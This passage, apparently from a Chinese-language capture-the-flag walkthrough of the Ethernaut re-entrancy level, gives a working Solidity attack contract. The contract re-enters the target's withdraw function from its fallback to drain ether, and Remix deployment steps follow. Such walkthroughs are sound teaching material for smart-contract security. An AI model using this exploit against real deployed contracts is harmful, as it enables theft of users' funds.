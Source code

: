 ```plain
  function() public payable {}
}

contract ReentrancePoc {

    Reentrance reInstance;

    function getEther() public {
        msg.sender.transfer(address(this).balance);
    }

    function ReentrancePoc(address _addr) public{
        reInstance = Reentrance(_addr);
    }
    function callDonate() public payable{
        reInstance.donate.value(msg.value)(this);
    }

    function attack() public {
        reInstance.withdraw(1 ether);
    }

  function() public payable {
      if(address(reInstance).balance >= 1 ether){
        reInstance.withdraw(1 ether);
      }
  }
}
```

下面进行攻击操作，首先点击"Get new Instance"来获取一个实例：

[![](assets/1706254492-21f628356173189dc94bb489e9a12db3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125161812-47bddaf6-bb5a-1.png)  
之后获取 instance 合约的地址  
[![](assets/1706254492-5d66635308ba9b10fb7446333dd54f31.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125161821-4d51ffb0-bb5a-1.png)  
之后在 remix 中部署攻击合约  